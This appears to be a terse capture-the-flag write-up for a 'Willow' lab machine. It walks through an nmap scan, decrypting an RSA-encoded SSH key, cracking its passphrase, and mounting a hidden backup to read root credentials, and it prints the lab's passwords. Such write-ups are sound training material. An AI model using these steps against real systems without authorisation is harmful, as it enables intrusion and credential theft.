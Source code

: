 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx willow.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV willow.thm
```

we got these open ports
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs     2-4 (RPC #100003)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# HTTP (port 80)
Hey Willow, here's your SSH Private key -- you know where the decryption key is!


we have a decimal suite that is an encoded message with rsa

we found a rsa_keys file
```
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
```

https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html
we got the password of id_rsa key with ssh2john wildflower


┌──(kali㉿kali)-[~/thm/Willow]
└─$ ssh willow@willow.thm -i id_rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa


willow@willow-tree:~$ mkdir /tmp/test
willow@willow-tree:~$ sudo mount /dev/hidden_backup /tmp/test/
willow@willow-tree:~$ ls -la /tmp/test/
total 6
drwxr-xr-x  2 root root 1024 Jan 30  2020 .
drwxrwxrwt 11 root root 4096 Sep  7 12:48 ..
-rw-r--r--  1 root root   42 Jan 30  2020 creds.txt
willow@willow-tree:~$ cat /tmp/test/creds.txt 
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
willow@willow-tree:~$


Found /home/willow/.cache/tracker/meta.db: SQLite 3.x database                                                                             
Found /home/willow/.local/share/evolution/addressbook/system/contacts.db: SQLite 3.x database
Found /home/willow/.local/share/zeitgeist/activity.sqlite: SQLite 3.x database
Found /var/lib/apt/listchanges.db: Berkeley DB (Hash, version 9, native byte-order)
Found /var/lib/colord/mapping.db: SQLite 3.x database
Found /var/lib/colord/storage.db: SQLite 3.x database
Found /var/lib/mlocate/mlocate.db: mlocate database, version 0, require visibility, root /
Found /var/lib/PackageKit/transactions.db: SQLite 3.x database


steghide extract -sf user.jpg
we use the root password and we got a root.txt

